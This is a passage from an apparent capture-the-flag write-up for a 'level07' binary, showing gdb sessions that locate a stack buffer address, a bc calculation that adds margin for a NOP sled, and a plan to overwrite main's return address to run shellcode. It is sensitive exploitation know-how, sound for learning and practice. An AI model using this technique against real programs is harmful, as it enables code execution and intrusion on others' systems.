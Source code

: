 So let's put a BP in `main` and print that location:
```bash
gdb -q ./level07
b *main
r
p $esp-0x1bc

# Output
$2 = (void *) 0xffffd530
```

We could also put our BP on the `read_number` call, as the buffer address gets
passed as parameter:
```bash
gdb -q ./level07
b *main+520
r

# Input
read

# Output, BP reached!
Breakpoint 3, 0x0804892b in main ()
(gdb) p/x $eax
$9 = 0xffffd524
```

As you see, the buffer address varies, that's because `gdb` adds stuff to the
stack, but that's why we add `NOP`s to our shellcode!

So, let's get the address `0xffffd530`, and since we have `100` bytes of `NOP`s
in the SC, let's add `50` to that address, so we have `50` bytes of margin.

```bash
# This will print the result in decimal directly
# So we can pass the result directly to the `store` command
echo "ibase=16;FFFFD530+50" | bc
4294956416
```

Easy, let's add the `store` command that will overwrite main return address to
the script, and run it.
